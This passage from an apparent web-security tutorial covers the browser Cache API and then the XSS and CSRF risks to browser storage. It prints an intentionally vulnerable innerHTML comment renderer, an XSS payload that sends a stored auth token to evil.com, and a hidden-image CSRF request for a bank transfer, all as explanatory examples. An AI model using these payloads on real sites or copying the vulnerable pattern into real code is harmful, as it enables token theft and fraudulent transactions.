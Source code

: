 ### 4. Cache API

The Cache API is part of service workers, primarily used for offline capabilities.

```javascript
// Storing a response in the cache
caches.open('my-cache').then(cache => {
  cache.put('/api/data', new Response(JSON.stringify({ key: 'value' })));
});

// Retrieving from cache
caches.open('my-cache').then(cache => {
  cache.match('/api/data').then(response => {
    if (response) {
      response.json().then(data => {
        console.log(data); // { key: 'value' }
      });
    }
  });
});
```

## Security Vulnerabilities in Browser Storage

Now that we understand the storage options, let's explore the security risks:

### 1. Cross-Site Scripting (XSS) Attacks

XSS is one of the most common attack vectors for browser storage. If an attacker can inject malicious scripts into your page, they can access any data in localStorage, sessionStorage, and unprotected cookies.

Example of an XSS vulnerability:

```javascript
// VULNERABLE CODE - DO NOT USE
// Imagine a comment system that renders user input directly
function displayComment(commentText) {
  document.getElementById('comments').innerHTML += commentText;
}

// An attacker submits this as a comment:
// <script>fetch('https://evil.com/steal?data='+localStorage.getItem('authToken'))</script>
```

In this example, the attacker's script would run in the context of your site and could steal sensitive information from storage.

### 2. Cross-Site Request Forgery (CSRF)

CSRF attacks exploit the fact that cookies are sent with every request to their associated domain.

```javascript
// Imagine an authenticated user visits a malicious site with this code:
<img src="https://banking-site.com/transfer?to=attacker&amount=1000" style="display:none">

// If the user is logged into banking-site.com, their cookies will be sent
// with this request, potentially authorizing a fraudulent transaction
```
